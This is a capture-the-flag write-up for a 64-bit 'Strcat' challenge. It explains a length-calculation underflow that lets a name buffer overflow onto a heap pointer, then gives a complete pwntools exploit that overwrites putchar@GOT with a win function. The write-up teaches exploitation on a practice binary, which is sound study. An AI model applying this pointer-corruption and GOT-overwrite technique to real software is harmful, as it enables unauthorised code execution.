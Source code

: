 # Writeup for Strcat challenge

We are given a 64-bit binary with ASLR (but no PIE). Looking through the functionality of the binary, it asks us for a *name*, a *desc*(which was a malloc-ed chunk of 0x20 size) and then through a menu prompt, let's us concatenate stuff to this *name* buffer (which has a `maxlen` of `0x80` btw) and to the *desc* chunk. There is also a *win* fucntion which simply prints the flag on the screen. So, our objective is simply to call the win function.

One obvious vulnerability was a format string vulnerability in the `main` function where `printf(name)` and `printf(desc)` are used. Now, since these buffers are in the BSS and heap section, so a format string was somewhat tricky(You can try that though).

```c
ulong readline(void *param_1,int param_2)

{
  uint uVar1;
  size_t sVar2;
  
  read(0,param_1,(long)param_2);
  sVar2 = strlen(name);
  uVar1 = (int)sVar2 - 1;
  *(undefined *)((long)param_1 + (long)(int)uVar1) = 0;
  return (ulong)uVar1;
}
```
readline function disassembly using Ghidra

```c

void main(void)

{
  int iVar1;
  size_t sVar2;
  size_t sVar3;
  
  setup();
  puts("My strcat");
  maxlen = 0x80;
  printf("Name: ");
  iVar1 = readline(name,0x80);
  maxlen = maxlen - iVar1;
  desc = (char *)malloc(0x20);
  printf("Desc: ");
  readline(desc,0x20);
  do {
    while( true ) {
      print_menu();
      printf("> ");
      iVar1 = read_int32();
      if (iVar1 != 2) break;
      printf("Desc: ");
      readline(desc,0x20);
    }
    if (iVar1 == 3) {
      printf(name);
      printf(desc);
      putchar(10);
    }
    else {
      if (iVar1 == 1) {
        printf("Name: ");
        iVar1 = maxlen;
        sVar2 = strlen(name);
        sVar3 = strlen(name);
        iVar1 = readline(name + sVar3,(ulong)(uint)(iVar1 - (int)sVar2),sVar3);
        maxlen = maxlen - iVar1;
      }
      else {
        puts("Invalid");
      }
    }
  } while( true );
}

```
main function disassembly using ghidra

 Another (not so obvious) vulnerability was in the `readline` function which calculated the length of the string as `len = strlen(string)` and returned the value `len - 1` . Now in the `main` function, when we concatenate something to the *name* buffer, `maxlen` is updated to
`maxlen = maxlen - readline(name)`.
Oh, and one thing to remember, the *desc* pointer was located just **below** the *name* buffer. So, with an overflow in the buffer we could overwrite *desc* pointer and then edit this modified pointer through the menu. How do we get this overflow?



If we send `\x00` as the name, then `strlen(name)` would return `0x0` and the readline function would actually return `-1`, this would mean `maxlen = maxlen - (-1)` which effectively overflows our name buffer once, repeat this method to increase the `maxlen` buffer to say `0x90`. Now, we can simply overwrite the *desc* poiner to point it to a GOT function (I chose the `putchar@GOT` for this) and then with the help of *edit desc* option, overwrite this GOT entry to point to *win* function.


The entire exploit can then be written as:

```python
#!/usr/bin/python

from pwn import *

'''
[*]strcat'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

'''

local = False

if '-r' not in sys.argv:
    local = True

p = process('./strcat')
e = ELF('./strcat')


def init(name, desc):
    p.sendafter('Name:', name)
    p.sendafter('Desc:', desc)

def add_to_name(name):
    p.sendlineafter('>', str(1))
    p.sendafter('Name:', name)

def edit_desc(desc):
    p.sendlineafter('>', str(2))
    p.sendafter('Desc:', desc)

def viewall():
    p.sendlineafter('>', str(3))
    data = p.recvuntil('Menu',drop=True)


#Trigger the bug discussed above by sending '\x00' as the name
name_init = '\x00'
desc_init = "AAAAAAA"
init(name_init, desc_init)

# Continuosly increase maxlen to cover the desc pointer by sending null byte
for i in xrange(16):
    add_to_name('\x00')


# Finally overwriting the desc pointer with the GOT entry for putchar
payload = "A"*0x80 + '\x20\x20\x60\x20'
add_to_name(payload)

# Overwrite putchar@GOT with win function
payload = p64(e.symbols['win'])
edit_desc(payload)

# Use the print it all function in menu and you'll get the flag

p.interactive()


```
